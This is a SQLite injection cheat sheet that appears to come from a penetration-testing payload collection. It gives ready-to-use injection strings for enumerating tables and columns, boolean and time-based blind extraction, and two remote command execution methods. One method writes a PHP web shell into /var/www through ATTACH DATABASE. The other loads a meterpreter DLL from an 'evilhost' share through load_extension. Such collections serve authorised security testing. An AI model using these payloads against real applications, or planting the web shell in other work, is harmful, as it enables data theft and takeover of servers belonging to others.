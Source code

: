 ```yaml
---
title: SQLite Injection
categories: [Database, SQLite]
tags: [Injection, Database, SQL]
---
```

# SQLite Injection

## Summary

* [SQLite comments](#sqlite-comments)
* [SQLite version](#sqlite-version)
* [Integer/String based - Extract table name](#integerstring-based---extract-table-name)
* [Integer/String based - Extract column name](#integerstring-based---extract-column-name)
* [Boolean - Count number of tables](#boolean---count-number-of-tables)
* [Boolean - Enumerating table name](#boolean---enumerating-table-name)
* [Boolean - Extract info](#boolean---extract-info)
* [Time based](#time-based)
* [Remote Command Execution using SQLite command - Attach Database](#remote-command-execution-using-sqlite-command---attach-database)
* [Remote Command Execution using SQLite command - Load_extension](#remote-command-execution-using-sqlite-command---load_extension)
* [References](#references)
## SQLite comments

```sql
--
/**/
```

## SQLite version

```sql
select sqlite_version();
```

## Integer/String based - Extract table name

```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

Use limit X+1 offset X, to extract all tables.

## Integer/String based - Extract column name

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

For a clean output

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Time based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

## Remote Command Execution using SQLite command - Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```

## Remote Command Execution using SQLite command - Load_extension

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

Note: By default this component is disabled

## References

[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
